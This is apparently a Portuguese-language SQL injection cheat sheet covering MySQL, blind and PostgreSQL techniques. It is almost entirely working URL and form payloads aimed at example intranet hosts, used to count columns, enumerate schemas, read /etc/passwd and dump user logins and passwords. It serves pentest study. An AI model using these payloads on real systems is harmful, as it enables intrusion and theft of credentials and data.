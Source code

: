 # SQL Injection

SQL = Structured Query Language  
SQL é uma linguagem para gerenciar o banco de dados mas não é o banco de dados em si.

Os principais bancos de dados que utilizam o SQL são:

- Oracle
- SQL Server
- Mysql
- DB2
- PostgreSQL

---

SQLi básico:  
``teste' or 1=1;#`` **Preenchimento no formulário.**  
``http://intranet.businesscorp.com.br:8080/cat.php?id=3 or 1=1;#`` **Método GET via URL.**

SQLi limitando número de saídas:  
``teste' or 1=1 limit 1;#`` **Preenchimento no formulário.**

SQLi básico para ter uma saída mais limpa:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1``

Para descobrir o número de colunas é necessário ir incrementando até o erro ocorrer:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 1`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 2`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 3`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 4`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 5`` (**Com erro**)  
*Nesse caso essa tabela possui 4 colunas.*

Também podemos descobrir o número de colunas através do UNION SELECT:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2,3`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2,3,4`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2,3,4,5`` (**Com erro**)  
*Nesse caso essa tabela possui 4 colunas.*

Agora devemos escolher um dos números que aparecem no site:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,"Teste",3,4``  
*A palavra **Teste** deve aparecer em algum lugar na página.*

Trazer a versão do Mysql:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,@@version,3,4``  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,version(),3,4``

Trazer nome do banco de dados:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,database(),3,4``

Verificar usuário atual:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,current_user(),3,4``

Verificar todos os bancos de dados:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata``

Verificando todas as tabelas:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,table_name,3,4 from information_schema.tables;``

Verificando as tabelas em um banco de dados específico:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema="nome_do_db";``

Verificando as colunas de uma tabela:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,column_name,3,4 from information_schema.columns where table_schema="nome_do_db" and table_name="nome_tabela";``

Sabendo o nome da tabela e da coluna podemos efetuar um dump:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,login,3,4 from users;``  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,password,3,4 from users;``

Mostrando mais de uma informação por vez:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,concat(login,':',password),3,4 from users;``

---

## SQL Injection (Blind)

Quando a informação passada for verdade a aplicação irá retornar algo, porém sendo falso a aplicação não irá retornar nada.

Lógica Booleana (verdadeiro[1] ou falso[0])

SQL Injection (Blind) básico:  
``1' and 1=1#``

Para descobrir o número de colunas é necessário ir incrementando até a aplicação não retornar nada:  
``1' and 1=1 order by 1#`` (Com retorno da aplicação)  
``1' and 1=1 order by 2#`` (Com retorno da aplicação)  
``1' and 1=1 order by 3#`` (**Sem retorno da aplicação**)  
*Ou seja, temos apenas duas colunas nessa tabela.*

Também podemos descobrir o número de colunas através do UNION SELECT:  
``1' and 1=1 union select 1#`` (Sem retorno da aplicação)  
``1' and 1=1 union select 1,2#`` (**Com retorno da aplicação**)  
``1' and 1=1 union select 1,2,3#`` (Sem retorno da aplicação)  
*Como somente o segundo form está verdadeiro a aplicação irá responder.*

Teste número por número para que possamos identificar qual é exibido na aplicação:  
``1' and 1=1 union select 'teste1',2#``  
``1' and 1=1 union select 1,'teste2'#``

Tentando carregar arquivo do sistema:  
``1' and 1=1 union select 1,load_file('/etc/passwd')#``

Verificando todas as tabelas:  
``1' and 1=1 union select 1,table_name from information_schema.tables#``

Verificando as colunas de uma tabela:  
``1' and 1=1 union select 1,column_name from information_schema.columns where table_name='nome_tabela'#``

Sabendo o nome da tabela e da coluna podemos efetuar um dump:  
``1' and 1=1 union select 1,user from users#``  
``1' and 1=1 union select 1,password from users#``

## SQL Injection PostgreSQL

No banco de dados PostgreSQL no lugar de números no **union select** iremos utilizar **null**.
O restante fica tudo muito parecido com o MySQL.

Para descobrir o número de colunas é necessário ir incrementando até o erro ocorrer:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 1`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 2`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 3`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 4`` (Sem erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 5`` (**Com erro**)  
*Nesse caso essa tabela possui 4 colunas.*

Descobrir o número de colunas através do UNION SELECT:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null`` (Com erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null`` (Com erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null`` (Comm erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null,null`` (**Sem erro**)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null,null,null`` (Com erro)  
*Nesse caso essa tabela possui 4 colunas.*

Validando a coluna onde usaremos para pegar as informações:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 'null',null,null,null`` (Com erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,'null',null,null`` (**Sem erro**)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,'null',null`` (Com erro)  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null,'null'`` (Com erro)  
*A aplicação replica a informação na página através do campo dois.*

Verificar todos os bancos de dados:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,datname,null,null from pg_database;``

Verificando todas as tabelas:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,tablename,null,null from pg_tables;``  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,table_name,null,null from information_schema.tables;``

Verificando as tabelas em um banco de dados específico:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,table_name,null,null from information_schema.tables where table_catalog='nome_do_db';``

Verificando as colunas de uma tabela:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,column_name,null,null from information_schema.columns where table_name="nome_da_tabela";``

Sabendo o nome da tabela e da coluna podemos efetuar um dump:  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,login,null,null from users;``  
``http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,password,null,null from users;``
